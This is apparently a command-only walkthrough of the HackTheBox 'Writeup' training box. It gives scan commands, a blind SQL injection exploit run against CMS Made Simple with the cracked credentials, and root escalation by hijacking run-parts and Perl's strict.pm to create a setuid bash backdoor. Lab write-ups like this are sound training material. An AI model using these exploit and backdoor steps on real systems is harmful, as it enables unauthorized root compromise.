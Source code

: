## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Initial Access**: Blind SQLi in CMS Made Simple
- **Privilege Escalation**: PATH hijack via `run-parts`
- **Extras**: Perl module hijack (Beyond Root)

---

## 🔎 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap_alltcp 10.10.10.138
```

### 🔍 Targeted Service & Script Scan
```bash
nmap -p 22,80 -sV -sC -oA scans/nmap_scripts 10.10.10.138
```

### 📄 robots.txt Discovery
```bash
curl http://10.10.10.138/robots.txt
```

---

## 🐚 Shell as jkr

### 💉 SQL Injection Exploit (Blind SQLi)
```bash
./cmsms_sqli.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
```

### 🔑 Output Credentials
```
Username: jkr
Password: raykayjay9
```

### 🔐 [SSH](SSH) Login
```bash
ssh jkr@10.10.10.138
```

---

## 🔼 Privilege Escalation (jkr → root)

### 👥 Check Groups
```bash
id
```

### 📂 Writable Directories
```bash
ls -ld /usr/local/bin/ /usr/local/sbin/
```

### 🔍 Watch Processes with pspy
*(Upload and run `pspy`)*
```bash
./pspy64
```

### 🪤 Hijack `run-parts` in PATH
```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /bin/0xdf\nchmod u+s /bin/0xdf' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
```

### 🔁 Reconnect to Trigger Payload
```bash
ssh jkr@10.10.10.138
```

### 🔓 Run Backdoored Bash
```bash
/bin/0xdf -p
```

---

## 🧠 Beyond Root – Perl Module Hijack

### 📂 Check Default Perl Modules
```bash
perl -MData::Dumper -e 'print Dumper \%INC'
```

### 📍 Print Perl Include Path
```bash
perl -e 'print join(":",@INC)'
```

### 📁 Create Writable Perl Include Directory
```bash
mkdir -p /usr/local/lib/x86_64-linux-gnu/perl/5.24.1
```

### 📄 Copy and Modify `strict.pm`
```bash
cp /usr/share/perl/5.24/strict.pm /usr/local/lib/x86_64-linux-gnu/perl/5.24.1/
```

Edit `/usr/local/lib/x86_64-linux-gnu/perl/5.24.1/strict.pm` and insert:
```perl
system "cp /bin/bash /bin/0xdf; chmod u+s /bin/0xdf";
```

### 🧪 Trigger Again via SSH
```bash
ssh jkr@10.10.10.138
/bin/0xdf -p
```